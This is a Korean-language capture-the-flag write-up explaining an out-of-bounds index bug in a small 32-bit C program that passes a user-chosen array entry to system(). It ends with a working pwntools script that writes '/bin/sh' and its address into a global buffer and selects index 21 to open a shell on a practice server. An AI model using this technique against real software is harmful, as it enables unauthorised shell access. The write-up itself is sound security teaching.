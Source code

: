 # 바이너리 분석

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

## 1. OOB

```
scanf("%d", &idx);

system(command[idx]);

```

이 부분을 보면, `idx`에 값을 입력받고, `command[idx]`를 통해 인덱스에 접근하는데, 유효한 인덱스인지 확인하지 않기 때문에 OOB 취약점이 존재함을 알 수 있다. 

여기서 `system(command[idx])`를 수행할 때 OOB를 통해 `command[idx]`에 **`"/bin/sh"` 문자열이 저장된 주소**가 저장되어 있다면 `system("/bin/sh");`를 수행하게 되어 쉘을 획득할 수 있게 될 것이다.

**처음엔 `command[idx]`에 바로 `"/bin/sh"` 자체를 저장하면 되는게 아닌가 했는데, 그게 아니라 `command[idx]`에는 `"/bin/sh"` 문자열을 가리키는 주소를 저장해야 한다.**

## 2. `"/bin/sh"` 입력

전역 변수로, 아래와 같이 `name`, `command` 배열이 선언되어 있기 때문에 `name`에 `"/bin/sh"` 을 가리키는 주소를 입력하고 같은 세그먼트에 존재하기 때문에 오프셋으로 접근하면 될 것이라는 것을 알 수 있다.

```
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
```

그리고, `main()`을 보면 `read(0, name, sizeof(name));`을 통해 `name`에 원하는 값을 입력할 수 있는 것도 알 수 있다.

그런데 여기서 `name`에는 `/bin/sh"` 문자열을 저장하는 주소를 입력해줘야 하는데, `"/bin/sh"` 은 바이너리에 사용된 `libc`에만 존재하므로 `libc`의 베이스 주소를 모르는 경우에는 사용할 수 없다.

<img width="341" alt="image" src="https://github.com/user-attachments/assets/d227d3c4-7bcc-4dd1-979d-05720a9ca316">

잘 생각해보면 `name`은 `char name[16]` 으로 선언되어 있기 때문에, `name[0]`에 `"/bin/sh"`을 저장해주고, `name[8]`에 `name[0]`의 주소를 입력해주면 결국 `command[idx]`가 `"/bin/sh"` 문자열이 저장된 주소를 가리키게 할 수 있다.

따라서, `command[idx]`에는 `name[8]`의 주소가 저장되야 함을 알 수 있다.

따라서, `name`에 `"/bin/sh" + name[0]의 주소`를 입력해주면 된다.

## 3. `name`, `command` 오프셋 계산

<img width="481" alt="image" src="https://github.com/user-attachments/assets/5c39dd9b-014c-4405-b771-14a022b8af1c">

`command`를 기준으로 `name`이 `76` 만큼 떨어져 있는 것을 알 수 있다. 처음에는 `char *`의 크기가 `8bytes`이므로 `76`만큼 떨어져있으면 오프셋으로 딱 나누어지지 않아서 안되는가라는 생각을 했는데 `checksec`으로 확인해보면 해당 바이너리가 `32-bit`이다.\
(참고로, 이번 문제에서 `idx`의 주소는 필요 없긴 하지만 `gcc -g` 옵션을 주지 않으면 바이너리를 gdb로 디버깅 할 때, `print`가 안먹히긴 한다.)

<img width="639" alt="image" src="https://github.com/user-attachments/assets/0133d28a-0e64-4bca-931f-efb04146775f">

따라서, `char *`의 크기가 `4bytes` 이기 때문에 `scanf("%d", &idx);`를 통해 `name[8]`을 가리키는 `(76 + 8) / 4 = 21`, `idx`에 `21`를 입력해주면 쉘을 획득할 수 있음을 알 수 있다.

# Exploit 

주의할 점은 `name`에 `"/bin/sh"`을 입력해줄 때, 오프셋으로 접근하기 위해 8바이트 단위로 끊어야 하기 때문에 `b"/bin/sh"` 7바이트에 `b"\x00"` 1바이트를 추가해줘야 된다.

그리고, `name[0]`의 주소는 해당 바이너리에 `PIE`가 적용되어 있지 않기 때문에 데이터 영역도 랜덤화되지 않아서, 고정 가상 주소를 통해 접근할 수 있기 때문에 위에서 본 `name`의 주소인 `0x804a0ac`를 대입해주면 된다.

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 14448)

payload = b"/bin/sh" + b"\x00"  # 8바이트를 맞춰주기 위해 b'\x00'을 추가해줘야함
payload += p32(0x804A0AC) # name의 주소 (system의 인자에는 "/bin/sh" 문자열 자체가 아닌 해당 문자열의 주소가 들어가야함)
p.send(payload)

# &name - &command = 76 이므로, 32-bit에서 char *의 크기인 4byte만큼 index 19차이가 나고, name의 주소는 8byte 뒤에 입력되어 있어서 4byte만큼 2번 더 가야함
idx = 19 + 2
p.sendline(str(idx).encode())  # scanf("%d")에 입력하기 때문
# p.sendline(b'21')             # 그냥 이렇게 써도 됨

p.interactive()
```
